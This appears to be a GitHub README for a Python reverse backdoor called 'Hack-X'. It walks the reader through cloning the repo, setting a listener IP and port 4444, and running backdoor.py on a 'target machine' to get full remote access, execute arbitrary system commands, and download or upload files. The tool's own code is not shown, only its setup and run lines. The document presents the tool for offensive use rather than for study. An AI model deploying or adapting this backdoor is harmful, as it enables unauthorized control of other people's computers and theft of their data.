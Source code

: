 # REVERSE BACKDOOR


A backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access (aka root access) on a computer system, network, or software application my  backdoor is program when executed on a system gives full access to the computer system.


## RUN

1. Clone the repo 

```bash
root@kali:~# git clone https://github.com/Error-200/Hack-X.git

```
2. Change the dir 

```bash
root@kali:~#  cd Hack-X
root@kali:~/Hack-X#  cd bacckdoor

```
3.Open both the python codes in your editor and  and set your system **IP** 

```python
my_backdoor = Backdoor("set your ip", 4444)
my_backdoor.run()

```
```python
my_listener = Listener("set your ip", 4444)
my_listener.run()

```
> By default port is set to "4444" you can change according to your own use.

4. For testing purpose you can run the **server.py** (listener code) in your system  and wait for connection and and run   *      **backdoor.py** on other machine(or VB)  to test. 

<code> OWN MACHINE </code>
```python
python server.py

```

<code> TARGET  MACHINE </code>
```python
python backdoor.py

```

## SCREENSHOTS

WAIT FOR THE CONNECTION

![](img/b1.jpeg)

ONCE YOU GOT THE CINNECTION
![](img/b2.jpeg)

YOU CAN EXECUTE ANY SYSTEM COMMANDS 
![](img/b3.jpeg)

DOWNLOAD ANY FILE FROM REMOTE MACHINE  

![](img/b4.jpeg)

YOU CAN ASLO UPLOAD ANYTHING

![](img/b5.jpeg)

**Once donw with the job simply run "exit" to terminate connection**

```python
root@kali:~# exit

```

### BUILD 

- Python 
- Python modules used 
  - [Sockets](https://docs.python.org/3/library/socket.html)
  - [Subprocess](https://docs.python.org/3/library/subprocess.html)
  - [base64](https://docs.python.org/3/library/base64.html)
  - [os](https://docs.python.org/3/library/os.html)
  - [json](https://docs.python.org/3/library/json.html)
